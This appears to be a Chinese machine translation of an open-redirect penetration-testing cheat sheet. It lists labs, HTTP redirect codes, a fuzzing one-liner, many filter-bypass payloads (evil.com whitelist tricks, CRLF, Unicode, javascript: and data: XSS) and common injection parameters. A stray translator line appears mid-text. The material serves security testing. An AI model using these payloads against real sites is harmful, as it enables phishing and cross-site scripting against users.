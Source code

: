 # 开放URL重定向

> 当一个Web应用程序接受不受信任的输入，可能导致该Web应用程序将请求重定向到包含在不受信任输入中的URL时，可能会出现未经验证的重定向和转发。通过修改不受信任的URL输入到一个恶意站点，攻击者可能成功发起网络钓鱼诈骗并窃取用户凭据。因为修改后的链接中的服务器名称与原始站点相同，所以网络钓鱼尝试可能看起来更可信。未经验证的重定向和转发攻击也可以用来恶意构造一个URL，该URL会通过应用程序的访问控制检查，然后将攻击者转发到他们通常无法访问的特权功能。

## 摘要

* [实验室](#labs)
* [利用](#exploitation)
  * [HTTP重定向状态码](#http-redirection-status-code)
  * [模糊测试](#fuzzing)
  * [绕过过滤器](#filter-bypass)
  * [常见注入参数](#common-injection-parameters)
* [参考资料](#references)


## 实验室

* [Root Me - HTTP - 开放重定向](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
* [PortSwigger - 基于DOM的开放重定向](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)


## 利用

当一个Web应用程序或服务器使用未经验证的用户提供的输入来将用户重定向到其他站点时，就会出现开放重定向漏洞。这可以允许攻击者制作一个指向易受攻击站点的链接，该链接重定向到他们选择的恶意站点。

攻击者可以利用此漏洞进行网络钓鱼活动、会话盗窃或强迫用户在未经同意的情况下执行操作。

考虑以下示例：
您的Web应用程序具有一个功能，允许用户点击链接并自动重定向到保存的首选主页。这可能是这样实现的：

```ps1
https://example.com/redirect?url=https://userpreferredsite.com
```

攻击者可以通过将`userpreferredsite.com`替换为指向恶意网站的链接，在这里利用开放重定向。然后他们可以在网络钓鱼电子邮件中或在另一个网站上分发这个链接。当用户点击链接时，他们被带到恶意网站。


## HTTP重定向状态码

HTTP重定向状态码，即以3开头的状态码，表示客户端必须采取额外操作来完成请求。以下是一些最常见的状态码：

- [300多重选择](https://httpstatuses.com/300) - 这表明请求有多个可能的响应。客户端应选择其中之一。
- [301永久移动](https://httpstatuses.com/301) - 这意味着所请求的资源已永久移动到Location头部给出的URL。所有未来的请求应使用新的URI。
- [302找到](https://httpstatuses.com/302) - 此响应代码意味着所请求的资源已暂时移动到Location头部给出的URL。与301不同，它并不意味着资源已被永久移动，只是暂时位于其他地方。
- [303查看其他](https://httpstatuses.com/303) - 服务器发送此响应以指导客户端使用GET请求在另一个URI获取所请求的资源。
- [304未修改](https://httpstatuses.com/304) - 这用于缓存目的。它告诉客户端响应未被修改，因此客户端可以继续使用相同的缓存版本响应。
- [305使用代理](https://httpstatuses.com/305) - 所请求的资源必须通过Location头部提供的代理访问。
- [307临时重定向](https://httpstatuses.com/307) - 这意味着所请求的资源已暂时移动到Location头部给出的URL，并且未来请求仍应使用原始URI。
- [308永久重定向](https://httpstatuses.com/308) - 这意味着资源已永久移动到Location头部给出的URL，并且未来请求应使用新URI。它与301类似，但不允许改变HTTP方法。


## 模糊测试

从*Open-Redirect-payloads.txt*中替换`www.whitelisteddomain.tld`为测试用例中特定的白名单域名

要完成此操作，只需将`WHITELISTEDDOMAIN`的值`www.test.com`修改为测试用例URL。

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## 绕过过滤器

使用白名单域名或关键词

```powershell
www.whitelisted.com.evil.com 重定向到 evil.com
```

使用CRLF绕过"javascript"黑名单关键词

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

使用"//" & "////"绕过"http"黑名单关键词

```powershell
//google.com
////google.com
```



根据您提供的文档内容，以下是对应的翻译：

使用 "https:" 来绕过被黑名单的 "//" 关键词

```powershell
https:google.com
```

使用 "\/\/" 来绕过被黑名单的 "//" 关键词（浏览器将 \/\/ 视为 //）

```powershell
\/\/google.com/
/\/google.com/
```

使用 "%E3%80%82" 来绕过被黑名单的 "." 字符

```powershell
/?redir=google。com
//google%E3%80%82com
```

使用空字节 "%00" 来绕过黑名单过滤

```powershell
//google%00.com
```

使用参数污染

```powershell
?next=whitelisted.com&next=google.com
```

使用 "@" 字符，浏览器会将 "@" 后的任何内容重定向

```powershell
http://www.theirsite.com@yoursite.com/
```

创建文件夹作为他们的域名

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

使用 "?" 字符，浏览器会将其转换为 "/?"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```


主机/拆分 Unicode 规范化
```powershell
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```

来自开放URL的XSS - 如果它在JS变量中

```powershell
";alert(0);//
```

来自 data:// 包装器的XSS

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

来自 javascript:// 包装器的XSS

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## 常见注入参数

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```


## 参考资料

- **Open-Redirect-Payloads**：
  - 作者/来源：cujanovic（[链接](https://github.com/cujanovic/Open-Redirect-Payloads)）
  - 内容概述：该资源可能提供了关于开放重定向漏洞的利用有效载荷的信息。

- **Host/Split Exploitable Antipatterns in Unicode Normalization**：
  - 发表会议：BlackHat US 2019（[链接](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)）
  - 内容概述：这份文档讨论了在Unicode规范化过程中存在的可被利用的主机/分割反模式。

- **Open Redirect Vulnerability**：
  - 作者/来源：s0cket7（发表日期：2018年8月15日）（[链接](https://s0cket7.com/open-redirect-vulnerability/)）
  - 内容概述：这篇文章可能探讨了开放重定向漏洞的相关信息。

- **OWASP - Unvalidated Redirects and Forwards Cheat Sheet**：
  - 来源：开放式Web应用程序安全项目（OWASP）（[链接](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)）
  - 内容概述：这是OWASP提供的一份关于未经验证的重定向和转发的简明指南。

- **Pentester Land - Open Redirect Cheat Sheet**：
  - 来源：Pentester Land（发表日期：2018年11月2日）（[链接](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)）
  - 内容概述：这份简明指南提供了关于开放重定向漏洞利用的信息。

- **You do not need to run 80 reconnaissance tools to get access to user accounts**：
  - 作者/来源：@stefanocoding（[链接](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)）
  - 内容概述：这篇文章讨论了获取用户账户访问权限时，不需要运行大量侦察工具的方法。

